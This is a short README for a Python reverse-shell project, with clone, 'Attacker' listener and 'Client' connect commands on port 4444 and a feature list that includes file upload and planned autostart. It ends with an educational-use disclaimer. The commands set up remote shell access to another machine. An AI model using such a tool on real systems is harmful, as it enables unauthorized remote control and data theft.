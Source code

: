 ## Cross-Platform Reverse Shell Written with Python
![banner](banner.png)

## Installing 
```bash
git clone https://github.com/isa-programmer/reversed-shell
cd reversed-shell
```

## Attacker
```bash
python3 server.py 0.0.0.0 4444 # Byte size is optional defualt is 1024
```

## Client
```bash
python3 client.py 0.0.0.0 4444 # Byte size is optional defualt is 1024
```


## Features

- [x] Powershell and Bash support
- [x] File uploading
- [ ] To ensure automatic opening at the beginning
- [ ] Multiple Session Support and Logging
- [ ] Encryption

> Note: This project was built for educational purposes. Do not test on machines without legal permission
